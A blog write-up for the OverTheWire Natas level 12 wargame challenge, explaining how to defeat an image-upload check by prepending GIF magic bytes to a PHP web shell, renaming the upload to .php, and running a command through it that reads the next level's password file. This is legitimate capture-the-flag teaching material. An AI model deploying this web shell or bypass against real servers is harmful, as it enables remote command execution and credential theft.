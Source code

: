 ```yaml
---
layout: post
title:  "Natas Level 12 → Level 13"
date:   2021-05-27 15:47:18
categories: ctf wargames web-security
tags: wargames ctf overthewire web-security
series: "OverTheWire: Natas"
excerpt: Filter jilter
mathjax: false
---
```


## Level Goal
Excluding the URL and username, the Level Goal section is blank for the Natas ctf.


## Solution
The natas12 website allows us to select and upload an image, and view the page source. This time it claims it will only accept image files.  Since the source is now starting to get a bit longer, I'll highlight the pertinent line(s) below.

Server side code:
```php
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
    echo "File is not an image";
```

Client side code:
```html
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
```

Here we see the same method of client-side renaming used in the last level. The site author has also updated the code to include a server-side EXIF data check to try and ensure the data sent is a valid image file. Since we have no control over the server side, we'll need to trick the code into accepting our php script once again.  This time, we'll need to embed the [Magic Bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) for an valid image file into our script.

There are several ways to go about adding the magic bytes: you can write a small script in python (or another language) to create the file and embed the hex characters, you can use a hex editor to prepend the hex bytes to the shell.php file from the last level, or you can copy the text characters, not the hex characters and paste them into shell.php with your favorite editor. 

Initially I tried to use the text characters for jpg but was unsuccessful. Looking at the hex output I could see that the characters were wrong. I'm not sure if that was an issue with vim or not. I opted to go for another image type without unicode character in it. Below is the copy/paste solution using GIF:

shell.php
```php
GIF89a: <? passthru($_GET["cmd"]); ?>
```

The colon and space after GIF89a are not part of the magic bytes and are not technically required. They've been included to make reading the password at the end of the level easier. 

Open the web developer tools for your browser and use the inspector to quickly locate the upload section of the code. You should see something similar to the following:

```html
<form enctype="multipart/form-data" action="index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000">
<input type="hidden" name="filename" value="upzknql2yq.jpg">
```

The last line is the one we're looking for. The name of the file, **upzknql2yq** will be different for you. Change the extension from .jpg to .php using the developer tools. Do not refresh the page or use the browser navigation buttons, or you'll need to change the extension once again.

With the extension now changed, click on the browse button, select shell.php and then click upload. 

You shoud see a message similar to the following:
```
The file upload/zidcnm44f9.php has been uploaded
```

Make certain that the uploaded file ends in .php. If not, navigate back and re-edit the page source using the developer tools. Once you have the confirmation that the file uploaded with the .php extension, copy the link to the file location. Do not click the link.

Paste the link into the browser and append the following to the URL:
```
?cmd=cat /etc/natas_webpass/natas14
```

The ASCII representation of the magic bytes and the password to the next level will display on the page.